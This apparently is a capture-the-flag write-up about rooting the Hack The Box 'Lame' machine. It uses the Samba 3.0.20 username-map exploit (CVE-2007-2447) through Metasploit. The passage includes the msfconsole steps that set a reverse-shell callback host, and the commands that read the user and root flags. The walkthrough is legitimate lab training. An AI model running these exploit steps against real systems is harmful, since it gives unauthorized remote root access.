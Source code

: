 ```
After facing 2 dead-ends in ftp enumeration, I started looking for vulnerabilities in OpenSSH and found nothing interesting, so I immediately shifted on Samba. If you are little aware, then smb and samba are kind of vulnerable services and looking at the Samba's version (Samba 3.0.20), I can say there are plenty of exploits available for it. I started with the obvious google search methodology.

![](images-lame/6.png)

**Links:**
1. [NIST CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
2. [exploitdb - Find the exploit here](https://www.exploit-db.com/exploits/16320)

Next step I performed is finding if the exploit is available in the Metasploit framework or searchsploit database. 

`searchsploit Samba 3.0.20`

![](images-lame/7.png)

And this gives an output that shows the exact same exploit available in metasploit framework, so this might be our ticket in. Let's explore and exploit it! I used the following commands to perform the exploit:

```
msfconsole
msf6> search Samba 3.0.20
msf6> use 0
msf6> show options
msf6> set RHOSTS 10.10.10.3
msf6> set LHOST 10.10.14.11
msf6> exploit
```

In the options, I have set *RHOSTS* to the target IP and *LHOST* to my vpn IP. It is very important to set the LHOST properly, or else you will not get the connection or reverse shell.

![](images-lame/8.png)
![](images-lame/9.png)

As you can review from the above images that we finally have achieved root access. Yay! Finally after so many dead-ends we are here now. The final demand of the machine is to get a user flag from the user makis and a root flag. So I found them using the following commands:

**makis's flag:**
```
cd /home/makis/
ls
cat user.txt
```

**root flag:**
```
cd /root
ls
cat root.txt
```


![](images-lame/10.png)

![](images-lame/11.png)

#### How this vulnerability works?

```